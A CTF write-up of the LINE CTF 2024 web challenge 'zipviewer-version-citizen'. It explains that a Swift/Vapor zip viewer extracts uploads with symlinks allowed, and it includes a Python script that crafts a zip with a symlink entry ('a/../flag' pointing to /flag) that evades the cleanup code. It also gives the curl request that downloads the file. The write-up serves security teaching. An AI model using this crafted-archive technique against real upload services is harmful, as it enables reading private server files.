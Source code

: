 ```yaml
---
tags:
  - ctf
layout: ctf
type: problem
ctf: 2024-line
category: web
title: zipviewer-version-citizen
points: 110
solved: true
---
```


# zipviewer-version-citizen

## Instructions

Read the flag (/flag)

## Solution

This application allows us to upload a zip file, it is then decompressed, and we are able to download the files that are in the zip file. Our goal is to read outside of the zipfile at /flag. Taking a look at the dependencies for the application, we can see that github.com/weichsel/ZIPFoundation version 0.9.18 is used as the zip decompression library.

```
$ cat Package.swift
// swift-tools-version: 5.9
import PackageDescription

let package = Package(
    name: "zipviewer-version-citizen",
    platforms: [
       .macOS(.v13)
    ],
    dependencies: [
        .package(url: "https://github.com/vapor/vapor.git", exact: "4.89.0"),
        .package(url: "https://github.com/vapor/leaf.git", exact: "4.2.4"),
        .package(url: "https://github.com/weichsel/ZIPFoundation.git", exact: "0.9.18"),
        .package(url: "https://github.com/apple/swift-crypto.git", exact: "3.1.0"),
```


Looking at the Unzip function, we can see that allowUncontainedSymlinks is true which means we should be able to read /flag using a symlink.

```swift
func Unzip(filename: String, filepath: String) throws -> Bool {
    let fileManager = FileManager()
    let currentWorkingPath = fileManager.currentDirectoryPath
 
    var sourceURL = URL(fileURLWithPath: currentWorkingPath)
    sourceURL.appendPathComponent(filename)
    
    var destinationURL = URL(fileURLWithPath: currentWorkingPath)
    destinationURL.appendPathComponent(filepath)
    
    try fileManager.createDirectory(at: destinationURL, withIntermediateDirectories: true, attributes: nil)
    try fileManager.unzipItem(at: sourceURL, to: destinationURL, allowUncontainedSymlinks: true)
 
    return true
}
```


However, the CleanupUploadedFile function attempts to remove symbolic links

```swift
func CleanupUploadedFile(filePath: String, fileList: [String]) throws -> Bool {
    do {
        let fileManager = FileManager()
        let currentWorkingPath = fileManager.currentDirectoryPath

        print("File Count \(fileList.count)")

        for fileName in fileList {
            var originPath = URL(fileURLWithPath: currentWorkingPath)

            originPath.appendPathComponent(filePath)
            originPath.appendPathComponent(fileName)

            if !fileManager.fileExists(atPath: originPath.path) {
                print("file not found")
                continue
            }

            if (try IsSymbolicLink(filePath: originPath.path)) {
                print("Find Symbol!! >> \(originPath.path)")
                try fileManager.removeItem(at: originPath)
            }
        }
    } catch {
        return false
    }

    return true
}
```

To get around this we can upload a zip file where the cleanup code is unable to correctly delete the symlink.

```python
#!/usr/bin/env python3

import zipfile

zipInfo = zipfile.ZipInfo()
zipInfo.create_system = 3
zipInfo.external_attr = 2716663808
zipInfo.filename = "a/../flag"

with zipfile.ZipFile('payload.zip', 'w') as zipf:
    zipf.writestr(zipInfo, "/flag")
```


![](attachments/Pasted%20image%2020240325110740.png)
```shell
$ curl http://localhost:11000/download/flag -H 'Cookie: vapor_session=ZhIGWR15t53Dp25Zyuq4lZ820BkDW2H+y3ydAt1vdkI='

LINECTF{redacted}
```
